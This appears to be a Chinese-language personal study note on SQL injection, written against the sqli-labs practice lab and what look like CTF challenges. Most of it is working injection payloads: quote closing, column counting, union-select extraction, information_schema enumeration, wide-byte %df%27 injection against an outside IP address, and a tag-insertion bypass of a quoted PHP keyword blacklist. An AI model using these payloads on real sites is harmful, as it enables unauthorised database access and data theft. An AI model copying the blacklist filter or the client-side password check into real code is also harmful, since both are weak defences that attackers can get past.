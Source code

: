 ```yaml
---
title: "learn sqlinject"
date: 2018-04-18T15:43:48+08:00
lastmod: 2018-04-18T15:43:48+08:00
draft: false
tags: ["sqlinject", "web security"]
categories: ["sqlinject"]
author: "lilin"

---
```

url/?id=1

正常登陆

url/?id=1'

报错   闭合字符是 '

http://127.0.0.1/sqlilabs/Less-1/?id=1' --+    正常

http://127.0.0.1/sqlilabs/Less-1/?id=1' and 1=2--+   不显示  说明 1=2把前面的吃掉了。 1=2 后面可以加命令


url/?id=1' and 1=2 order by 4   错误

url/?id=1' and 1=2 order by 3 正常  说明有3列

union select 1,2,3  看显示出第几列  显示的列是可以搞事的。放payload

url/?id=1'%23    # 注释 ' 不报错了

url/?id=1' order by 5 --+   报错

url/?id=1' order by 3 --+   正常

url/?id=1' union select 1,2,3,4 --+

报错，说明目标不是4列

url/?id=1' union select 1,2,3 --+

正常显示

发现把 1 2 3 替换为字符串或者其他数字也照样正常显示 如'sadfdg323vd'  23534 等

http://127.0.0.1/sqlilabs/Less-1/?id=1' and exists(select * from admin)--+

报错
Table 'security.admin' doesn't exist

exists()函数检查子查询是否会返回数据。是 返回true 不是 返回false

http://127.0.0.1/sqlilabs/Less-1/?id=1' and exists(select * from mysql.user)--+

正常返回 说明 mysql.user 存在
否则会报错

http://127.0.0.1/sqlilabs/Less-1/?id=1' and (select * from mysql.user)--+

报错0.0

http://127.0.0.1/sqlilabs/Less-1/?id=1' and (select id from mysql.user)--+

报错了，子查询返回多于一行

http://127.0.0.1/sqlilabs/Less-1/?id=1' and (select id from mysql.user limit 1,1)--+

似乎OK了0.0

SELECT * FROM table LIMIT 5,10; 检索 6-15行

url/admin.php?ip=1 正常

url/admin.php?ip=1' 


database()  显示当前数据库

user()  显示登录名和登陆地址

version()  查看数据库版本

union select table_name from information_schema.tables where table_schema=xxxx(库名)

select table_name from information_schema.tables where table_schema=security

?id=1%df%27  宽字节注入

/?id=1%df%27%20union%20select%201%EF%BC%8C2%23

/?id=1%df%27%20union%20select%201,2,3%20--+

select id from sql5.key

http://103.238.227.13:10083/?id=1%df%27%20union%20select%20(select%20string%20from%20sql5.key%20limit%200,1),6%20--+



//过滤sql
$array = array('table','union','and','or','load_file','create','delete','select','update','sleep','alter','drop','truncate','from','max','min','order','limit');
foreach ($array as $value)
{
	if (substr_count($id, $value) > 0)
	{
		exit('包含敏感关键字！'.$value);
	}
}

//xss过滤
$id = strip_tags($id);

$query = "SELECT * FROM temp WHERE id={$id} LIMIT 1";
			


?id=-1 uni<>on sel<>ect 4,5#

4,5正常显示
?id=-1 uni<>on sel<>ect database(),5#
出库名 sql3

正则过滤.   php全局变量


brupsuite 抓包重放  看回显

function checkSubmit(){var a=document.getElementById("password");if("undefined"!=typeof a){if("67d709b2b54aa2aa648cf6e87a7114f1"==a.value)return!0;alert("Error");a.focus();return!1}}document.getElementById("levelQuest").onsubmit=checkSubmit;